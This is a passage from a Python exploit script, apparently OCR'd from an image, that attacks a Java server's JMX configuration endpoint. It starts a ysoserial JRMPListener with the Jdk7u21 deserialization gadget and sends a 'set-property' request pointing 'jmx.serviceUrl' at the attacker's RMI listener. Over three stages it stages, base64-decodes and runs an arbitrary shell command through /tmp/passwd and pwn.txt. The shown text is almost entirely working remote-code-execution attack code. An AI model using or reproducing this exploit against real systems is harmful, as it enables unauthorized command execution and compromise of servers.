                 pro = subprocess.Popen(
                    "java -cp ysoserial-master-ff59523eb6-1.jar ysoserial.exploit.JRMPListener " + RPORT + " Jdk7u21 'sed -i 1s/pwn/{echo," +
                    command_str + "}|{base64,-d}>pwn.txt/g /tmp/passwd'", stdout=subprocess.PIPE, shell=True, preexec_fn=os.setsid)

                print("[+] Writing command into temp file =>", end=' ')
                burp0_url = remote + ressource
                burp0_headers = {"Content-Type": "application/json"}
                burp0_json = {
                    "set-property": {"jmx.serviceUrl": "service:jmx:rmi:///jndi/rmi://" + RHOST + ":" + RPORT + "/obj"}}
                r = requests.post(
                    burp0_url, headers=burp0_headers, json=burp0_json)
                if r.status_code == 500:
                    print("\033[92mOK\033[0m")
                else:
                    print("KO")
                    os.killpg(os.getpgid(pro.pid), signal.SIGTERM)
                    sys.exit()
                os.killpg(os.getpgid(pro.pid), signal.SIGTERM)
                time.sleep(3)

                pro = subprocess.Popen(
                    "java -cp ysoserial-master-ff59523eb6-1.jar ysoserial.exploit.JRMPListener " + RPORT + " Jdk7u21 'bash /tmp/passwd'", stdout=subprocess.PIPE, shell=True, preexec_fn=os.setsid)

                print("[+] Decode base64 command =>", end=' ')
                burp0_url = remote + ressource
                burp0_headers = {"Content-Type": "application/json"}
                burp0_json = {
                    "set-property": {"jmx.serviceUrl": "service:jmx:rmi:///jndi/rmi://" + RHOST + ":" + RPORT + "/obj"}}
                r = requests.post(
                    burp0_url, headers=burp0_headers, json=burp0_json)
                if r.status_code == 500:
                    print("\033[92mOK\033[0m")
                else:
                    print("KO")
                    os.killpg(os.getpgid(pro.pid), signal.SIGTERM)
                    sys.exit()
                os.killpg(os.getpgid(pro.pid), signal.SIGTERM)
                time.sleep(3)

                pro = subprocess.Popen(
                    "java -cp ysoserial-master-ff59523eb6-1.jar ysoserial.exploit.JRMPListener " + RPORT + " Jdk7u21 'bash pwn.txt'", stdout=subprocess.PIPE, shell=True, preexec_fn=os.setsid)

                print("[+] Executing command =>", end=' ')
                burp0_url = remote + ressource
                burp0_headers = {"Content-Type": "application/json"}
                burp0_json = {
                    "set-property": {"jmx.serviceUrl": "service:jmx:rmi:///jndi/rmi://" + RHOST + ":" + RPORT + "/obj"}}
                r = requests.post(
                    burp0_url, headers=burp0_headers, json=burp0_json)
                if r.status_code == 500:
                    print("\033[92mOK\033[0m")
                else:
                    print("KO")
                    os.killpg(os.getpgid(pro.pid), signal.SIGTERM)
                    sys.exit()
                os.killpg(os.getpgid(pro.pid), signal.SIGTERM)
                time.sleep(3)
